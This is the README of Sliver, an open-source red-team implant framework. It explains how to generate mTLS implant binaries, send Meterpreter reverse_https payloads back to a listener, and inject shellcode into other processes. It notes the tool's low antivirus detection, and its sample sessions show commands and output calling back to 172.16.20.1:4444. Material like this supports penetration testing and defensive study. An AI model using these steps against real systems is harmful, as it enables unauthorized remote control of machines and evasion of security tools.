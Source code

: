 Sliver
======

![Sliver](/sliver/sliver.jpeg)

Sliver is a remote shellcode loading and injection service that uses end-to-end encryption (mTLS) for all network traffic. Implants are dynamically compiled with unique X.509 certificates signed by a per-instance certificate authority generated when you first run the binary. Sliver can load arbitrary shellcode but also integrates with MSFVenom to automatically generate, execute, and manage Meterpreter payloads. Sliver binaries have very low anti-virus detection as they do not contain any malicous code themselves and instead dynamically load it over the network.

Sliver can inject payloads into it's own process or optionally use remote thread injection to execute payloads in a remote processes to which your execution context has access.

```
[attacker] <-(mTLS)-> [sliver] -(code injection)-> [remote process]
```

Sliver is designed to be secure-by-default and have as few dependancies as possible.

### Setup

1. Install Metasploit Framework v5 or later
2. Download the latest [Sliver](https://github.com/BishopFox/sliver/releases) binary
3. ???
4. Shellz

### Generating Client Binaries

Simply use the `gen` command to generate client binaries on the fly:

```
[*] Welcome to the sliver shell, see `help` for available commands

sliver > gen -save /root/ -lhost 172.16.20.1
 gen -save /root/ -lhost 172.16.20.1

[*] Generating new windows/amd64 sliver binary, please wait ...
[*] Generated sliver binary at: /root/DEVELOPING_CLEAVAGE.exe
```

You're done! The binary has already been embedded with a unique X.509 certificate (for mutual TLS) and the server configuration.


### Local Thread Execution

Execute shellcode in the local process:

```
sliver (NURSING_BEETLE) > msf -lhost 172.16.20.1
 msf -lhost 172.16.20.1
[*] Generating meterpreter_reverse_https windows/amd64 -> 172.16.20.1:4444 ...
[*] Successfully generated payload 207449 byte(s)
[*] Sending payload -> NURSING_BEETLE
[*] Sucessfully sent payload
```

### Remote Thread Injection

Inject shellcode into remote processes:

```
sliver (NURSING_BEETLE) > inject -pid 3100 -lhost 172.16.20.1
 inject -pid 3100 -lhost 172.16.20.1
[*] Generating meterpreter_reverse_https windows/amd64 -> 172.16.20.1:4444 ...
[*] Successfully generated payload 207449 byte(s)
[*] Sending payload -> NURSING_BEETLE -> PID: 3100
[*] Sucessfully sent payload
```

Sliver also has a built-in `ps` command.

### Multi-player Mode

Sliver can also execute multiple payloads per connection. This can be helpful if your meterpreter session dies, or if you want to play with friends:

```
sliver (STUPID_AIRBAG) > msf -lhost 172.16.20.1
 msf -lhost 172.16.20.1
[*] Generating windows/amd64 -> 172.16.20.1:4444 ...
[*] Successfully generated payload 207449 byte(s)
[*] Sending payload -> STUPID_AIRBAG
[*] Sucessfully sent payload
sliver (STUPID_AIRBAG) > msf -lhost 172.16.20.2
 msf -lhost 172.16.20.2
[*] Generating windows/amd64 -> 172.16.20.2:4444 ...
[*] Successfully generated payload 207449 byte(s)
[*] Sending payload -> STUPID_AIRBAG
[*] Sucessfully sent payload
```

## Compile From Source

You'll want to compile from a MacOS or Linux machine, compiling from Windows should work but none of the scripts are designed to run on Windows (you can compile the Windows binaries from MacOS or Linux).

Requirements for Compiling:
* Metasploit Framework v5 or later
* Go v1.11 or later
* `make`, `sed`, `tar`, `wget`, `zip` commands
* [Dep](https://golang.github.io/dep/)

Build thin server (for developement)

```
$ dep ensure
$ ./go-assets.sh
$ make
```

Statically compile and bundle server with all dependencies and assets:

```
$ dep ensure
$ ./go-assets.sh
$ make static-macos
$ make static-linux
$ make static-windows
```
